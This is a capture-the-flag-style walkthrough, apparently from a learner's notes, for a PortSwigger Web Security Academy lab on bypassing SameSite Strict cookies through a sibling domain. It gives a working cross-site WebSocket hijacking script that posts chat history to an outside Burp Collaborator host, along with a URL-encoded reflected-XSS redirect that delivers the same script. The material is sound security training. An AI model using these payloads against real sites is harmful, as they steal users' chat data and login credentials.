





# SameSite Strict bypass via sibling domain

## This lab's live chat feature is vulnerable to [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) ([CSWSH](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)). To solve the lab, log in to the victim's account.

## To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## If you haven't done so already, we recommend completing our topic on [WebSocket vulnerabilities](https://portswigger.net/web-security/websockets) before attempting this lab.

`https://0a74003f04ae070c81a0d930002f007f.web-security-academy.net/chat`

---

### step 1

open lab click on live chat and see history in burpsute


### step2

`https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net`
click on cms link
it will open login page



click on login alert pop will com



### step3

copy chat url
`https://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`

for making chat url
remove https and add wss
`wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`
use below script

### HINT:

```html
<script>
  var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://YOUR-COLLABORATOR-PAYLOAD.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

change according to script and upload to explot and store and view expolit and pull burp collebrator

```html
<script>
  var ws = new WebSocket(
    "wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat"
  );
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://cdtqf729k3ob5xfk7n3ezkm80z6qugi5.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```





before payload
it was without same site


### step4

### HINT:

```html
<script>
  document.location =
    "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

change according to script and put into expolit and pull burp colleb

```html
<script>
  document.location =
    "https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%62%64%30%30%39%34%30%33%36%64%62%36%35%65%38%32%64%32%35%63%37%35%30%30%35%34%30%30%30%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%63%64%74%71%66%37%32%39%6b%33%6f%62%35%78%66%6b%37%6e%33%65%7a%6b%6d%38%30%7a%36%71%75%67%69%35%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```


